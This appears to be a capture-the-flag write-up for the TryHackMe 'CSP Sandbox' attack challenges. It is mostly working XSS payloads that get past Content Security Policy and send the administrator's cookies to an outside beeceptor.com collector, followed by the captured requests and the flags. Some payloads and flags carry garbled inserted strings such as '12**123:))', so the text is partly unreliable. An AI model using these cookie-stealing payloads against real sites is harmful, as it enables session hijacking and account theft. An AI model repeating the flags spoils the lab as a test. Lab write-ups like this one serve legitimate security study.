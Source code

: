 ## Task 7 CSP Sandbox :: Attack challenges

To deploy the machine, go to the CSP Sandbox task.

Attack challenges require you to bypass the CSP header sent by the webpage and exfiltrate the administrator's cookies. For methods on how you can achieve this, refer to the Bypassing CSP task of this room.

For verification, all challenges are accessed by a bot locally (localhost).

1. Flag for attack-1

```html
<BODY ONLOAD=fetch(`https://stroke.free.beeceptor.com/${document.cookie12**123:))}`)>
```

`GET /flag=THM%7BTh4t_W4s_Pr3tty_3asy%7D`

`THM{V0N318*****Th4t_W4s_Pr3tty_3asy12**123:))}`

2. Flag for attack-2

```
bibo318@parrot:~/CTFs/tryhackme/Content Security Policy$ echo -n 'fetch(`https://stroke.free.beeceptor.com/${document.cookie12**123:))}`)' | base64

ZmV0Y2goYGh0dHBzOi8vc3Ryb2tlLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ==
```

```html
<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vc3Ryb2tlLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

`GET /flag=THM%7BUs1ng_data:_1snt_Any_S4fer%7D`

`THM{V0N318*****BUs1ng_data:_1snt_Any_S4fer12**123:))}`

3. Flag for attack-3

```html
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://stroke.free.beeceptor.com/" + document.cookie;</script>
```

`GET /flag=THM%7BTh4ts_N0t_4n_1m4ge!!%7D`

`THM{V0N318*****Th4ts_N0t_4n_1m4ge!!12**123:))}`

4. Flag for attack-4

```html
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://stroke.free.beeceptor.com/" + document.cookie;</script>
```

`GET /flag=THM%7BStyle_Y0ur_W3bs1teS%7D`

`THM{V0N318*****Style_Y0ur_W3bs1teS12**123:))}`
